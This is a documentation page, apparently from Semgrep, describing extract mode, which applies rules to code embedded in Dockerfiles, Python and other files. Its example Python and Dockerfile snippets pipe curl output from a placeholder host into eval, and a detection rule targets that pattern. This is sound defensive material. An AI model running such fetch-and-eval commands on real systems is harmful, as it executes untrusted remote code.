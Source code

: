 ```yaml
---
id: extract-mode
append_help_link: true
description: "This article explains the extract mode, which allows for easier handling of files containing more than one language."
---
```


# Extract mode

## Introduction

Extract mode enables you to run existing rules on subsections of files where the rule language is different than the language of the file. For example, running a Javascript rule on code contained inside of script tags in an HTML document.

## Example of extract mode

Without extract mode, writing rules to validate template, Markdown or configuration files which contain code in another language can be burdensome and require significant rule duplication.

Let's take the following Bash rule as an example (a simplified version of the [`curl-eval`](https://github.com/returntocorp/semgrep-rules/blob/release/bash/curl/security/curl-eval.yaml) rule from the Semgrep Registry):

```yaml
rules:
  - id: curl-eval
    severity: WARNING
    languages:
      - bash
    message: Evaluating data from a `curl` command is unsafe.
    mode: taint
    pattern-sources:
      - pattern: |
          $(curl ...)
      - pattern: |
          `curl ...`
    pattern-sinks:
      - pattern: eval ...
```

Usually, Semgrep uses this rule only against Bash files. However, a project might contain Dockerfiles or Python scripts that invoke Bash commands&mdash;without an extract mode rule, Semgrep does **not** run any Bash rules against commands contained in files of different languages.

However, with extract mode, you can provide Semgrep with instructions on how to extract any Bash commands used in a Docker `RUN` instruction or as an argument to Python's `os.system` standard library function.

```yaml
rules:
  - id: extract-docker-run-to-bash
    mode: extract
    languages:
      - dockerfile
    pattern: RUN $...CMD
    extract: $...CMD
    dest-language: bash
  - id: extract-python-os-system-to-bash
    mode: extract
    languages:
      - python
    pattern: os.system("$CMD")
    extract: $CMD
    dest-language: bash
```

By adding the extract mode rules as shown in the previous code snippet, Semgrep matches Bash code contained in the following Python file and reports the contained Bash as matching against the `curl-eval` rule.

```python
from os import system

if system('eval `curl -s "http://www.very-secure-website.net"`'):
    print("Command failed!")
else:
    print("Success")
```

Likewise, if a query included a Dockerfile with an equivalent Bash command, Semgrep reports the contained Bash as matching against the `curl-eval` rule. See the following Dockerfile example that contains a Bash command:

```dockerfile
FROM fedora
RUN dnf install -y unzip zip curl which
RUN eval `curl -s "http://www.very-secure-website.net"`
```

## Extract mode rule schema

Extract mode rules **require** the following [usual Semgrep rule keys](/writing-rules/rule-syntax/#required):
  - `id`
  - `languages`
  - One of `pattern`, `patterns`, `pattern-either`, or `pattern-regex`

Extract mode rules **also require** two additional fields:
  - `extract`
  - `dest-language`

Extract mode has one **optional** field:
  - `reduce`

The fields specific to extract mode are further explained in the sections below.

### `extract`

The `extract` key is required in extract mode. The value must be a metavariable appearing in your pattern(s). Semgrep uses the code bound to the metavariable for subsequent queries of non-extract mode rules targeting `dest-language`.

### `dest-language`

The `dest-language` key is required in extract mode. The value must be a [language tag](/writing-rules/rule-syntax/#language-extensions-and-tags).

### `reduce`

The `reduce` key is optional in extract mode. The value of this key specifies a method to combine the ranges extracted by a single rule within a file.

The value of `reduce` key must be one of the following:
<dl>
    <dt><code>separate</code></dt>
    <dd><p>Treat all matched ranges as separate units for subsequent queries. This is the <b>default</b> value.</p></dd>
    <dt><code>concat</code></dt>
    <dd><p>Concatenate all matched ranges together and treat this result as a single unit for subsequent queries.</p></dd>
</dl>


## Limitations of extract mode

Currently, extract mode does not support additional processing for the extracted text, such as unescaping strings, which might be useful for some applications like Jupyter Notebooks.

While extract mode can help to enable rules which try and track taint across a language boundary within a file, taint rules cannot have a source and sink split across the original file and extracted text.
